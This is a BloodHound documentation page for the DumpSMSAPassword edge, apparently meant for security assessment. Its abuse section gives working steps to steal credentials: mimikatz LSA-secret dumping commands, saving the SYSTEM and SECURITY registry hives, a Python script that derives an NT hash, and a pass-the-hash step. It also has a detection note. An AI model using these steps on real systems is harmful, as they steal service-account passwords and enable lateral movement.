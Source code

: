 ---
title: DumpSMSAPassword
description: "A computer with this indicates that a Standalone Managed Service Account (sMSA) is installed on it."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


An actor with administrative privileges on the computer can retrieve the sMSA’s password by dumping LSA secrets.

## Abuse Info

From an elevated command prompt on the computer where the sMSA resides, run mimikatz then execute the following commands:

```bash
privilege::debug
token::elevate
lsadump::secrets
```

In the output, find _\_SC\_\{262E99C9-6160-4871-ACEC-4E61736B6F21}__ suffixed by the name of the targeted sMSA. The next line contains _cur/hex :_ followed with the sMSA’s password hex-encoded.

To use this password, its NT hash must be calculated. This can be done using a small python script:

```bash
# nt.py
import sys, hashlib

pw_hex = sys.argv[1]
nt_hash = hashlib.new('md4', bytes.fromhex(pw_hex)).hexdigest()

print(nt_hash)
```

Execute it like so:


```bash
python3 nt.py 35f3e1713d61...
```

To authenticate as the sMSA, leverage pass-the-hash.

Alternatively, to avoid executing mimikatz on the host, you can save a copy of the _SYSTEM_ and _SECURITY_ registry hives from an elevated prompt:


```bash
reg save HKLM\SYSTEM %temp%\SYSTEM & reg save HKLM\SECURITY %temp%\SECURITY
```

Transfer the files named _SYSTEM_ and _SECURITY_ that were saved at _%temp%_ to another computer where mimikatz can be safely executed.

On this other computer, run mimikatz from a command prompt then execute the following command to obtain the hex-encoded password:

```bash
lsadump::secrets /system:C:\path\to\file\SYSTEM /security:C:\path\to\file\SECURITY
```

## Opsec Considerations

Access to registry hives can be monitored and alerted via event ID 4656 (A handle to an object was requested).

## Edge Schema

Source: [Computer](/resources/nodes/computer)  
Destination: [User](/resources/nodes/user)   
Traversable: **Yes**   

## References

* [https://simondotsh.com/infosec/2022/12/12/assessing-smsa.html](https://simondotsh.com/infosec/2022/12/12/assessing-smsa.html)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)
* [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
